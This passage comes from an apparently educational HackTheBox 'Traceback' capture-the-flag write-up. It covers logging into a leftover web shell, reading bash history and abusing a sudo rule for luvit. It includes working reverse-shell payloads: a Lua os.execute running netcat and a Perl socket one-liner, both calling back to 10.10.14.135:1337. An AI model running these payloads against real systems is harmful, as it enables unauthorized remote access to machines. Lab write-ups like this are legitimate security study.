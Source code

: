 ```php
$TabsColor = '#0E5061';                              //Change tabs color here.
#-------------------------------------------------------------------------------

?>
```

And luckily the credentials were not changed:
![](/images/hackthebox/traceback/webshell.png)
This looks straight out of a 90s hacking movie!

## Command execution
We can see from the top of the page that we are logged in as user `webadmin` and
now we have a way to execute commands on the machine. Taking a look around
allows us to find a file called `note.txt` in the user's home so lets read it:
```
$ cat /home/webadmin/note.txt
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```

Some interesting information can be found in `.bash_history`:
```
$ cat .bash_history
ls -la
sudo -l
nano privesc.lua
sudo -u sysadmin /home/sysadmin/luvit privesc.lua
rm privesc.lua
logout
```

Indeed running `sudo -l` tells us that we have the permission to run
`/home/sysadmin/luvit` as the user `sysadmin` without having to enter the
password:
```
$ sudo -l
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
```

The bash history file suggests that `luvit` can run a lua file, so lets try to
get a reverse shell as `sysadmin` by running this on the web shell console:
```
$ echo 'os.execute("nc 10.10.14.135 1337 -c /bin/sh")' > /tmp/rev.lua
```

And after setting our netcat listener with `nc -lnvp 1337` lets run it with:
```
$ sudo -u sysadmin /home/sysadmin/luvit /tmp/rev.lua
```
And nothing happens, probably netcat is compiled without `-c` and `-e` options,
so lets try to use Perl instead using the following payload:
```
perl -e 'use Socket;$i="10.10.14.135";$p=1337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
